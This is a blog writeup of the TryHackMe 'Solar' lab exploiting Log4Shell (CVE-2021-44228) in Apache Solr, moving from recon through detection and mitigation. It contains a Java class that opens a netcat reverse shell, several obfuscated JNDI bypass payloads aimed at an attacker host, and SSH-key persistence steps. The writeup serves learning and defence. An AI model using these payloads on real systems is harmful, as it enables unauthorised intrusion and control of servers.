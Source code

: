 ```yaml
---
title: Solar, exploiting log4j
date: 2021-12-15 00:20:00 +0100
categories: [Writeups]
tags: [thm,log4j]
---
```


# Solar, exploiting log4j

Solar is a TryHackMe box designed to introduce and explore CVE-2021-44228 also called `log4shell`. The idea is to gain a better understanding on how the vulnerability work and also provide knowledge on how to detect and mitigate/patch. 

This room has been made by the great [John Hammond](https://twitter.com/_johnhammond).

## A little bit of history

On *December 9th, 2021*, the world was made aware of a new vulnerability identified as [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), affecting the Java logging package `log4j`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `log4j` version. This attack has been dubbed "Log4Shell" - John Hammond

The vulnerability has been patched in the latest version of `log4j` (2.15.0rc2) but there is still potentially millions of applications vulnerable in the wild. ([list](https://github.com/YfryTchsGD/Log4jAttackSurface))

## Reconnaissance

Let's start with our default `nmap` TCP port scan to find potentially vulnerable services.

```txt
sudo nmap -sS -T4 -p- 10.10.111.77 -vv 

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
111/tcp  open  rpcbind syn-ack ttl 63
8983/tcp open  unknown syn-ack ttl 63
```

The application is accessible through HTTP, we land on a `Solr 8.11.0` dashboard. `Apache Solr` is an open-source enterprise-search platform, written in Java ([Wikipedia](https://en.wikipedia.org/wiki/Apache_Solr))

![solr_recon](/assets/images/solar/solr_app.png)

## Discovery

The TryHackMe room make some Solr logs available for us to analyse.

In the logs, we can see requests to the path `/admin/cores` with a parameter called `param={}`\
It could potentially be some GET or POST data sent with the request that gets include in the logs.

![solr_logs](/assets/images/solar/solr_log.png)

This `param` parameter could be an entry point as the `log4j` will try to "parse" entries to enrich data, which could lead to undesirable action like execution of code.

## Proof of Concept

The basic payload syntax is `${jndi:ldap://IP}`.\
This payload use the `JNDI` ([Java Naming and Directory Interface](https://fr.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) functionnality to access external resources (and in our case a remote IP) using the `ldap` protocol.

If we were to open a listener on a port on our attacking machine and send a GET request to the path with a fake parameter containing the payload, we would see a connection back from the server.

![log4j_poc](/assets/images/solar/solr_poc.png)

This proves the `log4j` logging system query our attacking machine and is vulnerable to `CVE-2021-44228`.

## Exploitation

The problem is that our listener does not understand the `ldap` protocol, for this reason we need a **LDAP Referral Server** that will redirect the client request to a secondary HTTP server hosting the malicious file that will be ultimately executed on the target.

We can use [marshalsec](https://github.com/mbechler/marshalsec) as our LDAP Referall server. I will skip the java building step as it is not of interest here, but we should have a working LDAP server ready to run.

The next step is to create a malicious java class that will get executed on our target.

Exploit.java

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.25.40 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

This simple code is a java class running a reverse shell using `exec()` method. Finally we need to compile the code into a `.class` executable with `javac Exploit.java -source 8 -target 8`.

We have everything we need to exploit the target. Now it's time for the show !\
We host the malicious `.class` executable on our python3 HTTP server.\
We run the LDAP Referral server pointing to our python3 server and finally we open a listener on the port specified in the reverse shell.

The only thing left to do is to GET request the vulnerable server just like the PoC but with a path pointing to our `Exploit` file.

![log4j_exploit](/assets/images/solar/solr_exploitation.png)

And we got our shell back ! Let's summarize the exploitation chain.

1. Curl request to injectable parameter with payload to our LDAP controlled server
2. LDAP Referral server receives the request from Solr server and direct the connection to our second HTTP server
3. Our secondary HTTP server serve the malicious java class `Exploit.class`
4. The malicious java class is executed by the server and we receive our reverse shell in our listener.

## Persistence

As we are the user `solr`, checking our home directory reveals a `.ssh` folder. We can create a persistence by generating a temporary key pair and add our public key to the `.ssh/authorized_keys` file.

We can now properly connect to the target using SSH.

## Detection

Looking at the log inside the target, we see our injected payload.

![injected_payload](/assets/images/solar/solr_log_payload.png)

In our context, the vulnerability is easy to detect because it appears in a single parameter in a GET request and we used the default payload but in a real world environment, it could be very difficult to find, and even harder because of the massive amount of bypasses.

John Hammond then shares some links from the community that worked hard those last few days to mitigate the threat.\
Feel free to browse them.

## Bypasses

The syntax we used in our payload is the default one and it might be caught by Web Application Firewalls (WAFs).
The room shows some bypasses we can experiment with.

Here are some of them.

```txt
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

What we need to understand, is that bypasses can be of many forms because the attack targets `log4j` and payloads can also access all the "tools" `log4j` uses to do its magic.

## Mitigation

A mitigation was released soon after the vulnerability was made public, we need to add the line `SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"` in the system-wide configuration file `/etc/default/solr.in.sh`

Retrying our previous exploit now fail which is good !

![mitigation](/assets/images/solar/solr_mitigate.png)

## Patching

At the time of writing this writeup, a lot of applications are still vulnerable to `CVE-2021-44228`, please take some time to better understand the vulnerability and look out for patches from vendors as it is a critical threat affecting millions of different devices from web servers to software clients.

Finally a message from John Hammond, I think is important to share.

*Please be understanding of this frenzy. There are so many potential places that this log4j vulnerability could be present, we may never see the end of this vulnerability for a long, long time. The onus is on you, on me, on each and every one of us to raise awareness of this incident, and hold the community accountable for actively responding.  When the time comes, roll out the patches that have been made available and continue to hunt for instances of this vulnerability. It takes a village.*

## Credits

I would like to thanks the amazing work from John Hammond for creating this room and being such a great actor in the cybersecurity community. Please check out his [Youtube channel](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw) for more content and be free to complete this room as it will give you better knowledge to detect and mitigate the vulnerability.

Hope you enjoy reading ! 